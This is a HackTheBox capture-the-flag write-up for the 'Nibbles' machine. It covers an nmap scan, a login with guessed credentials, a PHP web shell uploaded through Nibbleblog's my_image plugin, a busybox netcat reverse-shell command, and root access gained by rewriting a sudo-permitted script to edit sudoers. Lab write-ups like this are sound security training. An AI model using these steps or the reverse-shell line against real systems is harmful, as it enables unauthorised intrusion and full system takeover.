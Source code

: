 ```yaml
---
layout: /src/layouts/MarkdownPostLayout_HTB.astro
title: Nibbles HackTheBox Write-Up
author: Adrian Reategui
description: ""
image:
  url: "/images/posts/nibbles_bg.png"
  alt: ""
pubDate: 2025-06-14
tags:
  ["hackthebox", "machine", "writeup", "linux"]
languages: []
---
```


### SUMMARY
> This machine only had 2 open ports, on port 80 we found a nibble blog and when fuzzing we found an admin panel. Looking for vulnerabiltiies or sqli I couldnt find anything interesting to exploit the admin panel, however when tryin admin as the username and nibbles as the password I was able to login. Once inside nibbleblog was vulnerable to a malicious file upload trough the plugin "my_image". I then uploaded a cmd.php file with malicious code and I was able to retrieve the file from {URL}/content/private/plugins/my_image/image.php. Here I was able to execute commands and gained access to the system as the user nibbler. This user had a especial permisison that allowed him to execute a script inside his home directory as the user root, since the user was the propietary and had write permission on the script I then decided to add the user nibbler to the sudoers file and made him able to execute any command as any user so I could spawn a shell as the user root.

#Lecciones : En CTF's donde la maquina victima tiene un nombre y encontremos un panel de login es importante utilizar el nombre de la maquina para intentar usarla como usuario, password o ambos, en este caso el usuario era admin y la contrasena nibbles
### NMAP
- Nmap scan
	```
		# Nmap 7.95 scan initiated Sat Apr 26 14:50:36 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p22,80 -oN targeted 10.10.10.75
	Nmap scan report for 10.10.10.75
	Host is up (0.28s latency).
	
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
	|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
	|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-title: Site doesn't have a title (text/html).
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Sat Apr 26 14:50:59 2025 -- 1 IP address (1 host up) scanned in 22.97 seconds
	```
### FOOTHOLD
- On the web page on port 80 when inspecting the url-code I found a route to nibbleblog
	![alt](/images/posts/nibbles2.webp)
- I then access to the nibbleblog directory where I couldnt find anything interesting
	![alt](/images/posts/nibbles3.webp)
- I then fuzzed the webpage to find directories and found an admin.php
	![alt](/images/posts/nibbles4.webp)
- When accessing to the admin.php I found an admin panel
	![alt](/images/posts/nibbles5.webp)
- I tried default credentials but they weren't working so I decided to try admin as the username an nibbles (the machine name) as the password being able to access to the administrator panel
	```
		username: admin
		password: nibbles
	```
	![alt](/images/posts/nibbles6.webp)
- By doing a bit of research I found that nibbleblog was vulnerable to a malicious file upload 
	![alt](/images/posts/nibbles7.webp)
- The vuilnerability can be exploited by abusing the my_image plugin file upload, read more [HERE](https://nvd.nist.gov/vuln/detail/CVE-2015-6967). S since we had access I decided to upload a malicious cmd.php file
	![alt](/images/posts/nibbles8.webp)
- I uploaded a cmd.php file that was successfully uploaded, so in order to access to it I had to go to  {URL}/content/private/plugins/my_image/image.php.
	![alt](/images/posts/nibbles9.webp)
- I then started a netcat listener on port 443 and send a revershell to my kali machine by using busybox
	```
	busybox nc 10.10.14.22 443 -e sh
	```
	![alt](/images/posts/nibbles10.webp)
### LOCAL
- Once inside the system I was able to read the user flag, I decided to put my public key in order to connect trough ssh
	```
		nibbler@Nibbles:~$ whoami ; ifconfig ; cat /home/nibbler/user.txt
	nibbler
	ens192    Link encap:Ethernet  HWaddr 00:50:56:94:dc:a5  
	          inet addr:10.10.10.75  Bcast:10.10.10.255  Mask:255.255.255.0
	          inet6 addr: fe80::250:56ff:fe94:dca5/64 Scope:Link
	          inet6 addr: dead:beef::250:56ff:fe94:dca5/64 Scope:Global
	          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
	          RX packets:4247 errors:0 dropped:10 overruns:0 frame:0
	          TX packets:4918 errors:0 dropped:0 overruns:0 carrier:0
	          collisions:0 txqueuelen:1000 
	          RX bytes:517921 (517.9 KB)  TX bytes:1067133 (1.0 MB)
	
	lo        Link encap:Local Loopback  
	          inet addr:127.0.0.1  Mask:255.0.0.0
	          inet6 addr: ::1/128 Scope:Host
	          UP LOOPBACK RUNNING  MTU:65536  Metric:1
	          RX packets:216 errors:0 dropped:0 overruns:0 frame:0
	          TX packets:216 errors:0 dropped:0 overruns:0 carrier:0
	          collisions:0 txqueuelen:1 
	          RX bytes:17384 (17.3 KB)  TX bytes:17384 (17.3 KB)
	
	a7e55c86d7ffe7dfa22fcf3aae949f40
	```
### PRIVILEGE ESCALATION
- When lsiting users privileges I found the user nibbler was able to execute a script as the user root
	![alt](/images/posts/nibbles11.webp)
- The script was inside a zip file that I was able to extract and when lsiitng the script permissions I was teh owner and I could write on it
	![alt](/images/posts/nibbles12.webp)
- I then changed the name of the script monitor.sh and create a new one with the following instructions
	![alt](/images/posts/nibbles13.webp)
- I then ran the script as the user root and I successfully added the user nibbles to the sudoers file
	![alt](/images/posts/nibbles14.webp)
### ROOT
- I then spawn a shell as the user root and read the root flag
	```bash
		nibbler@Nibbles:~/personal/stuff$ sudo -u root bash
	```
	```
	root@Nibbles:~/personal/stuff# whoami ; ifconfig ; cat /root/root.txt
	root
	ens192    Link encap:Ethernet  HWaddr 00:50:56:94:dc:a5  
	          inet addr:10.10.10.75  Bcast:10.10.10.255  Mask:255.255.255.0
	          inet6 addr: fe80::250:56ff:fe94:dca5/64 Scope:Link
	          inet6 addr: dead:beef::250:56ff:fe94:dca5/64 Scope:Global
	          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
	          RX packets:4636 errors:0 dropped:10 overruns:0 frame:0
	          TX packets:5253 errors:0 dropped:0 overruns:0 carrier:0
	          collisions:0 txqueuelen:1000 
	          RX bytes:552041 (552.0 KB)  TX bytes:1103323 (1.1 MB)
	
	lo        Link encap:Local Loopback  
	          inet addr:127.0.0.1  Mask:255.0.0.0
	          inet6 addr: ::1/128 Scope:Host
	          UP LOOPBACK RUNNING  MTU:65536  Metric:1
	          RX packets:216 errors:0 dropped:0 overruns:0 frame:0
	          TX packets:216 errors:0 dropped:0 overruns:0 carrier:0
	          collisions:0 txqueuelen:1 
	          RX bytes:17384 (17.3 KB)  TX bytes:17384 (17.3 KB)
	
	092b5f313b1b539c9b6a4674ef514e81
	```

